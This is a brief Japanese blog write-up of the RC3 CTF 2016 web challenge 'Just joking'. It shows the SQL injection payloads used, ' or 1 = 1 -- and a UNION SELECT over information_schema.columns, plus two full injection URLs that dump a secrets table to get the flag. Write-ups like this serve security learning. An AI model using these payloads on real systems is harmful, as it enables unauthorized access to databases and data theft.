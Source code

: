 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/rc3-ctf-2016-just-joking/
  - /blog/2016/11/21/rc3-ctf-2016-just-joking/
date: "2016-11-21T17:47:17+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "web", "sql-injection", "guessing" ]
---
```


# RC3 CTF 2016: \"Just joking,\" Joker joked!

`' or 1 = 1 -- `で確認できる自明sqliがある。
そのまま`' union select table_schema, table_name, column_name from information_schema.columns -- `とするとDBの中身が見える。後はたくさんあるtableを端から順に見ていって探す。

`flag.welcome`に`pcbfcppgle`とありcaesarしたら`redherring`になるが、これははずれ。
`CCNs.secrets`にあるmd5っぽい文字列をdecryptorに投げると`RC3-2016-HAHAHAHA`が登録されていて、これがflag。
まったく同じinjectionができるDBがふたつあったが、理由は不明のまま。後の問題用か。

-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+table_schema%2C+table_name%2C+column_name+from+information_schema.columns+--+>
-   <https://ctf.rc3.club:2010/connect.php?primary=%27+union+select+*+from+CCNs.secrets+--+>
